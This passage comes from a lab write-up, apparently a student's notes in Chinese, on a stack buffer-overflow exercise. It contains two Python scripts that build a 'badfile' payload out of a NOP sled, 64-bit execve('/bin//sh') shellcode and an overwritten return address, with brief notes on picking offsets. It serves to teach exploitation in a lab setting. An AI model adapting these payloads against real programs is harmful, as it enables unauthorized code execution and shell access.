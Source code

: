 ```python
ret = 0x00007fffffffd830+start           # Change this number buffer[0]+start
offset = 216              # Change this number rbp - offset[0]+8

L = 8     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L, byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
    f.write(content)

```

## Task 6: Launching Attack on 64-bit Program (Level 4)

缓冲区不足，可以使用main中从badfile中读入的str的地址作为ret。这时badfile的start就不能是0了，因为缓冲区太小会和ret产生覆盖，需要大于10+8+8=26，

```python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode = (
    "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
    "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
    "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 26             # Change this number
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret = 0x00007fffffffdd30+start           # Change this number buffer[0]+start
offset = 18             # Change this number rbp - offset[0]+8

L = 8     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L, byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
    f.write(content)
```

## Tasks 7: Defeating dash’s Countermeasure
